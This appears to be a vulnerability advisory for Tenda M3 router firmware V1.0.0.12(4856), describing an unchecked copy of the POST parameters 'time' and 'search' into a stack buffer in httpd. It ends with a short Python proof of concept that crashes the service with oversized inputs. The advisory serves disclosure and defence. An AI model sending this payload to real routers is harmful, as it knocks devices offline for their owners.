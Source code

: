 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formGetPassengerAnalyseData` function, which can be accessed via the URL `goform/getPassengerAnalyseData`

<img src="img/image-20220527170058077.png" alt="image-20220527170058077" style="zoom:67%;" />

<img src="img/image-20220527170112690.png" alt="image-20220527170112690" style="zoom: 67%;" />

`formGetPassengerAnalyseData` function gets the POST parameter `time` and `search`and copies to stack buffer without checking its length, causing a stack overflow vulnerability.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"time": b'A'*0x400,
    b"search": b'A'*0x400
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/getPassengerAnalyseData", data=data, cookies=cookies)
print(res.content)
```

